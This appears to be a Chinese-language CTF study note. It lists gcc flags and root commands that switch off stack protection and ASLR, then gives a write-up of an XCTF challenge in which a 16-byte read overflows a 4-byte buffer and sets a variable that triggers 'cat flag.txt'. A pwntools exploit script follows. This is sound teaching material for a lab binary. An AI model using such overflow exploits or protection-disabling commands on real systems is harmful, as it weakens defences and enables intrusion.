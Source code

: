 #### gcc
- gcc -no-pie -fno-stack-protector -zexecstack -o testfile 
#### ASLR地址随机化
- 查看目前地址随机化模式(0不启用，1半启用，2启用)： 
`$ cat /proc/sys/kernel/randomize_va_space`  
- 修改ASLR：  
在root下：`# echo 0 > /proc/sys/kernel/randomize_va_space`  
在GDB场景下(默认关闭)：`set disable-randomization on`  
#### NX Bit
- Makes certain areas of memory non executable and makes an executable area, non writable.  
  Example: Data, stack and heap segments are made non executable while text segment is made non writable.


### 例题
#### [ad0465 覆盖变量值](https://adworld.xctf.org.cn/media/file/task/4f2f44c9471d4dc2b59768779e378282)
1. 分析过程  
    查看main函数，查看里面的hello()可疑函数：
    ```c
    __int64 __fastcall main(int a1, char **a2, char **a3)
    {
        alarm(0x3Cu);
        setbuf(stdout, 0LL);
        puts("~~ welcome to ctf ~~     ");
        puts("lets get helloworld for bof");
        read(0, &unk_601068, 0x10uLL);     // 注入点
        if ( dword_60106C == 1853186401 )  // 后门
            sub_400686();
        return 0LL;
    }
    ```
    查看输入点，输入到unk_601068；查看函数sub_400686()，为cat flag
    ```c
    read(0, &unk_601068, 0x10uLL);
    if ( dword_60106C == 1853186401 )
        sub_400686();
    ```
    ```c
    __int64 sub_400686()
    {
        system("cat flag.txt");
        return 0LL;
    }
    ```
    检查对应栈地址，发现dword_60106C就在unk_601068下面，并且unk_601068只占4字节，而read函数读入0x10字节，可以覆盖到dword_60106C
    ```
    .bss:0000000000601068 unk_601068      db    ? ;               ; DATA XREF: main+3B↑o
    .bss:0000000000601069                 db    ? ;
    .bss:000000000060106A                 db    ? ;
    .bss:000000000060106B                 db    ? ;
    .bss:000000000060106C dword_60106C    dd ?                    ; DATA XREF: main+4A↑r
    ```
2. exp.py
    ```python
    from pwn import *
    io = process('./pwn')
    val = p64(1853186401)           # 64位的程序，需要注入的数字（使dword_60106C=1853186401）
    payload = b'a'*4 + val         # 4位填充到unk_601068，溢出为val
    io.sendline(payload)
    io.interactive()
    ```